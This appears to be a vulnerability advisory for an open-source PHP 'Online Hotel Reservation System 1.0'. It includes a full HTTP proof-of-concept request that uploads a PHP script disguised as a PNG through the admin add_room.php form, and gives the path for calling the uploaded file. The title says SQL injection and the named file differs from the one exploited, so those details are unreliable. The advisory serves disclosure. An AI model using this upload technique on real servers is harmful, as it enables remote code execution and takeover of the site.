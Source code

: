## Online Hotel Reservation System has an SQL injection vulnerability

## Affected version:

Online Hotel Reservation System - 1.0

## Software:

https://code-projects.org/simple-online-hotel-reservation-system-in-php-with-source-code/

## Vulnerability File:

HOR/admin/room.php

## Description:

The administrator login interface of this online hotel system has an arbitrary file upload vulnerability. Attackers can upload malicious script files by modifying file contents and file names.

Status: Moderate

POC

```
POST /HOR/admin/add_room.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary8e25443fbbc19237fe585950ca860915
Content-Length: 568
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/HOR/admin/add_room.php
Cookie: PHPSESSID=db5no8dvip725j5p64esp3qbge
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundary8e25443fbbc19237fe585950ca860915
Content-Disposition: form-data; name="room_type"

Jr. Suite
------geckoformboundary8e25443fbbc19237fe585950ca860915
Content-Disposition: form-data; name="price"

12
------geckoformboundary8e25443fbbc19237fe585950ca860915
Content-Disposition: form-data; name="photo"; filename="web.php"
Content-Type: image/png

<?php phpinfo();?>
------geckoformboundary8e25443fbbc19237fe585950ca860915
Content-Disposition: form-data; name="add_room"


------geckoformboundary8e25443fbbc19237fe585950ca860915--

```

After a successful upload, access the following path:

```
/HOR/photo/web.php
```

image:

![image](https://github.com/foreverfeifei/HOR-CVE/blob/main/Pasted%20image%2020251021141943.png)


